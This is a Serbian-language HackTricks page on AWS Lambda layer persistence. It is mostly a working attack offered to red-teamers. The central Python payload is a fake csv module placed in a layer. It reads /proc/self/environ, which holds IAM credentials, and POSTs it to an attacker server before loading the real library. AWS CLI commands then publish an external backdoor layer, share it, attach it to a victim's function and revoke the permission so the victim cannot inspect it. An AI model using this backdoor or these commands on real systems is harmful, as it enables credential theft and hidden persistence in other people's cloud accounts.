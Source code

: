 # AWS - Lambda slojevi upornosti

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lambda slojevi

Lambda sloj je .zip arhiva koja **može sadržati dodatni kod** ili drugi sadržaj. Sloj može sadržati biblioteke, [prilagođeno izvršno okruženje](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione fajlove.

Moguće je uključiti do **pet slojeva po funkciji**. Kada uključite sloj u funkciju, **sadržaj se izvlači u direktorijum `/opt`** u okruženju izvršavanja.

Podrazumevano, **slojevi** koje kreirate su **privatni** za vaš AWS nalog. Možete odabrati da **podelite** sloj sa drugim nalozima ili da ga **učinite javnim**. Ako vaše funkcije koriste sloj koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju sloja nakon što je izbrisana ili nakon što vam je povučena dozvola za pristup sloju**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći izbrisane verzije sloja.

Funkcije implementirane kao kontejnerska slika ne koriste slojeve. Umesto toga, pakujete željeno izvršno okruženje, biblioteke i druge zavisnosti u kontejnersku sliku prilikom izgradnje slike.

### Putanja za učitavanje Python-a

Putanja za učitavanje koju će Python koristiti u lambda funkciji je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako su **drugi** i treći **položaj** zauzeti direktorijumima u kojima **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci zadnja vrata** u korišćeni lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljni kod prilikom učitavanja zajedničke biblioteke**, biće u mogućnosti da izvrši zlonamerni kod pri svakom pozivanju lambda funkcije.
{% endhint %}

Stoga, zahtevi su:

* **Proveriti biblioteke** koje se **učitavaju** u kodu žrtve
* Kreirati **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitavati originalnu** biblioteku.

### Prethodno učitane biblioteke

{% hint style="warning" %}
Kada sam zloupotrebljavao ovu tehniku, naišao sam na poteškoću: Nekoliko biblioteka je **već učitano** u python okruženju kada se vaš kod izvršava. Očekivao sam da ću pronaći stvari poput `os` ili `sys`, ali čak je i biblioteka `json` bila učitana.\
Da biste zloupotrebili ovu tehniku upornosti, kod mora **učitati novu biblioteku koja nije učitana** prilikom izvršavanja koda.
{% endhint %}

Pomoću python koda poput ovog moguće je dobiti **listu prethodno učitanih biblioteka** unutar python okruženja u lambda funkciji:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke poput `os` ili `json` već tu)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda podrazumevano instalira**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda slojeva

U ovom primeru pretpostavimo da ciljni kod uvozi **`csv`**. Mi ćemo **ubaciti backdoor u uvoz biblioteke `csv`**.

Da bismo to uradili, **kreiraćemo direktorijum csv** sa fajlom **`__init__.py`** u njemu na putanji koju lambda učitava: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naš **`__init__.py` fajl će biti učitan i izvršen**.\
Ovaj fajl mora:

* Izvršiti naš payload
* Učitati originalnu csv biblioteku

Obe stvari možemo uraditi sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, kreirajte zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda sloj.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM akreditive na server PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali mogu se integrisati i **druge tehnike** kao što su sledeće:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Spoljni slojevi

Imajte na umu da je moguće koristiti **lambda slojeve iz spoljnih naloga**. Osim toga, lambda može koristiti sloj iz spoljnog naloga čak i ako nema dozvole.\
Takođe, imajte na umu da je **maksimalan broj slojeva koje lambda može imati 5**.

Stoga, kako bi se pobolšala univerzalnost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći sloj korisnika (ništa nije spoljno)
* **Kreirati** sloj u **svojem nalogu**, dati pristup **žrtvinom nalogu** za korišćenje sloja, **konfigurisati** sloj u žrtvinom Lambda i **ukloniti dozvolu**.
* Lambda će i dalje moći **koristiti sloj**, a žrtva neće imati jednostavan način da **preuzme kod slojeva** (osim ako ne dobije rev šel unutar lambda)
* Žrtva **neće videti spoljne slojeve** korišćene sa **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
